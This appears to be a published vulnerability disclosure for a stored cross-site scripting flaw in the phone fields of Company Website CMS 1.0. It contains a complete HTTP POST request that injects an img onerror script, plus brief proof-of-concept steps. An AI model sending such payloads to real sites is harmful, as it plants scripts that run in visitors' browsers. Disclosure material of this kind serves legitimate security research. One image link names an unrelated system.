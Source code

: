 # Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15517/company-website-cms-php.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15517&title=Company+Website+CMS+in+PHP+and+MySQL+Free+Source+Code
#### Version: Company Website CMS  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application. Company Website CMS does not filter the content correctly at the  parameter, resulting in the generation of stored XSS.

#### Payload used:
```
POST /dashboard/contact HTTP/1.1
Host: 192.168.67.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7024317128117527412760215857
Content-Length: 989
Origin: http://192.168.67.9
Connection: close
Referer: http://192.168.67.9/dashboard/contact
Upgrade-Insecure-Requests: 1

-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone1"

+89 (0) 2354 5470091<img src="" onerror="alert(1)">
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone2"

+89 (0) 2354 5470091<img src="" onerror="alert(1)">
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email1"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email2"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="longitude"

7.099737483
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="latitude"

7.63734634
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="save"


-----------------------------7024317128117527412760215857--

```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/，We can see the alert.;
3. 

   ![image-20220810135857875](./img/Company Website CMS(XSS)/image-20220810135857875.png)
   
   ![image-20220607095010559](./img/PrisonManagementSystem(XSS).assets/image-20220607095010559.png)

   

   





